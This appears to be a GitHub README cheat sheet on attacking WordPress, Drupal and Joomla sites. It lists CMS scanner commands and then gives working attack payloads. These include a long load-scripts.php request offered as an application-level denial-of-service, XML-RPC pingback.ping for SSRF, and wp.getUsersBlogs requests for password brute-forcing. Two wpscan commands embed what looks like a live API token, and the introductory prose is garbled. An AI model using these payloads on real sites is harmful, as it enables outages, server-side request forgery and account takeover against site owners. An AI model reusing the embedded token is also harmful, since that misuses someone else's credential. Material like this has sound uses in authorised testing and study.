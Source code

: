 
# WordPress, Drupal, Joomla - CMS (Content Management System)


## Introduction
An  WordPress vulnerability is a type of security flaw that  WordPress, Drupal, Joomla.
use WordPress , 
## Where to find
In  WordPress - CMS (Content Management System) useing wappalyzer extention analyse WordPress, Drupal, Joomla .

## How to exploit
## WpScan 
 How to use it :


 1.Basic 
 ```
wpscan --url https://example.com
```
2. enumerating all themes

```
wpscan --url https://example.com -e at
```
 3. enumerating all plugin

```
wpscan --url https://example.com -e ap
```
4.enumerating all vulnerable themes
```
wpscan --url https://example.com -e vt --api-token=LAusKwrzSuMtJucpp0QYjpSo2CiQohsnsC4ybxsGox0
```

5.enumerating all vulnerable plugin
```
wpscan --url https://example.com -e vp --api-token=LAusKwrzSuMtJucpp0QYjpSo2CiQohsnsC4ybxsGox0
```


## CMSmap
Wordpress, Drupal, Joomla

```
Installation:  
1.git clone https://github.com/Dionach/CMSmap
2.cd CMSmap
3.pip3 install .
```

Use:

```
cd CMSmap
sudo python3 cmsmap.py https://example.com

sudo python3 cmsmap.py https://example.com -f W
W - wordpress
D - drupal
J - joomla
```





## CMSscan
Installation:

```

1. git clone https://github.com/ajinabraham/CMSScan.git
2. cd CMSScan
3. sudo ./setup.sh
4. cd plugins
5. sudo nano scanners.py

```



now find 

```
wp_scan = ['wpscan', '--url', url, '--no-banner', '-f', 'json',
               '--force', '-e', 'vp,vt', '--plugins-detection',
               'mixed', '--rua']
here we have to add api key

wp_scan = ['wpscan', '--url', url, '--no-banner', '-f', 'json',
               '--force', '-e', 'vp,vt', '--plugins-detection',
               'mixed', '--rua', '--api-token=your_token_here']
CTRL+X, then Y and then Enter to save it.

```
Use: 

```

cd CMSScan
./run.sh
after running you will find a url in 2nd line

```



## Application Level DOS

```

https://example.com/wp-admin/load-scripts.php?load=react,react-dom,moment,lodash,wp-polyfill-fetch,wp-polyfill-formdata,wp-polyfill-node-contains,wp-polyfill-url,wp-polyfill-dom-rect,wp-polyfill-element-closest,wp-polyfill,wp-block-library,wp-edit-post,wp-i18n,wp-hooks,wp-api-fetch,wp-data,wp-date,editor,colorpicker,media,wplink,link,utils,common,wp-sanitize,sack,quicktags,clipboard,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-reply,json2,underscore,backbone,wp-util,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrate,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,esprima,jshint,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-bar,wplink,wpdialogs,word-count,media-upload,hoverIntent,hoverintent-js,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embed,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,site-health,privacy-tools,updates,farbtastic,iris,wp-color-picker,dashboard,list-revisions,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter

```

4.19MB
suppose 10000*4.19=419000MB == 42GB


## XMLRPC

```
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>

```

1. SSRF -------> pingback.ping


```
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>Host</string></value>
</param><param><value><string>Some Valid Post Link</string>
</value></param></params>
</methodCall>

```
2. Brute-force --------> wp.getUsersBlogs
```

<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>username</value></param>
<param><value>password</value></param>
</params>
</methodCall>


```
